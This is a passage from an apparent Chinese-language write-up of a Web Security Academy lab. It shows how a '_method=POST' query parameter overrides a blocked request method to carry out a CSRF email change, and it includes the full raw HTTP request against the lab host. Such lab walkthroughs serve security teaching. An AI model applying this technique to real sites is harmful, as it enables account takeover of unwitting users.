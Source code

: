 [![](assets/1705890866-c87ecd798c5046ce0584e1dad9216875.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111300-7c179cb6-b5af-1.png)  
随后发送请求到repeat模块并更改请求方法，可以看到这里的GET请求方法也不被允许  
[![](assets/1705890866-0dd4042566f369f47c7fb5238758c816.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111316-859f4bf8-b5af-1.png)  
尝试通过向查询字符串中添加\_method参数来重写该方法，可以看到成功302跳转

```plain
GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1
Host: 0a5400b1044f8e7280d0264400d70024.web-security-academy.net
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a5400b1044f8e7280d0264400d70024.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5400b1044f8e7280d0264400d70024.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=76cbGkEjs6l0yhtyjUfc5wXPQCEZ9JwQ
```

[![](assets/1705890866-9e889d42c098df8a6cad3d73ad9f3dfe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111343-95f7d0ce-b5af-1.png)  
随后在漏洞利用服务器中制作一下攻击载荷
